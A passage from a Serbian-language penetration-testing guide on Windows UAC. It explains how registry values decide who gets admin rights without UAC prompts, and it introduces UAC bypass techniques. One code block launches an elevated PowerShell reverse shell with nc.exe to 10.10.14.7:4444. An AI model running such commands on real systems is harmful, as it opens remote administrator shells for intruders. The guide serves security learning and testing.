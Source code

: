 Zatim, treba da pogledate vrednost **`LocalAccountTokenFilterPolicy`**\
Ako je vrednost **`0`**, tada samo korisnik sa **RID 500** (**ugrađeni Administrator**) može obavljati **administratorske zadatke bez UAC-a**, a ako je `1`, **svi nalozi unutar grupe "Administratori"** to mogu uraditi.

I, na kraju pogledajte vrednost ključa **`FilterAdministratorToken`**\
Ako je **`0`** (podrazumevano), **ugrađeni administratorski nalog može** obavljati zadatke udaljene administracije, a ako je **`1`** ugrađeni administratorski nalog **ne može** obavljati zadatke udaljene administracije, osim ako je `LocalAccountTokenFilterPolicy` postavljen na `1`.

#### Rezime

* Ako je `EnableLUA=0` ili **ne postoji**, **nema UAC-a za bilo koga**
* Ako je `EnableLua=1` i **`LocalAccountTokenFilterPolicy=1`, Nema UAC-a za bilo koga**
* Ako je `EnableLua=1` i **`LocalAccountTokenFilterPolicy=0` i `FilterAdministratorToken=0`, Nema UAC-a za RID 500 (Ugrađeni Administrator)**
* Ako je `EnableLua=1` i **`LocalAccountTokenFilterPolicy=0` i `FilterAdministratorToken=1`, UAC za sve**

Sve ove informacije mogu se prikupiti koristeći **metasploit** modul: `post/windows/gather/win_privs`

Takođe možete proveriti grupe vašeg korisnika i dobiti nivo integriteta:

```
net user %username%
whoami /groups | findstr Level
```

## UAC zaobilaženje

{% hint style="info" %}
Imajte na umu da ako imate grafički pristup žrtvi, UAC zaobilaženje je jednostavno jer jednostavno možete kliknuti na "Da" kada se pojavi UAC prozor.
{% endhint %}

UAC zaobilaženje je potrebno u sledećoj situaciji: **UAC je aktiviran, vaš proces se izvršava u kontekstu srednje integriteta, a vaš korisnik pripada grupi administratora**.

Važno je napomenuti da je **mnogo teže zaobići UAC ako je postavljen na najviši nivo sigurnosti (Uvek) nego ako je postavljen na bilo koji od drugih nivoa (Podrazumevano)**.

### UAC onemogućen

Ako je UAC već onemogućen (`ConsentPromptBehaviorAdmin` je **`0`**), možete **izvršiti reverznu ljusku sa administratorskim privilegijama** (visok nivo integriteta) koristeći nešto poput:

```bash
#Put your reverse shell instead of "calc.exe"
Start-Process powershell -Verb runAs "calc.exe"
Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
```

#### UAC zaobilaženje sa duplikacijom tokena

* [https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/](https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/)
* [https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html](https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html)
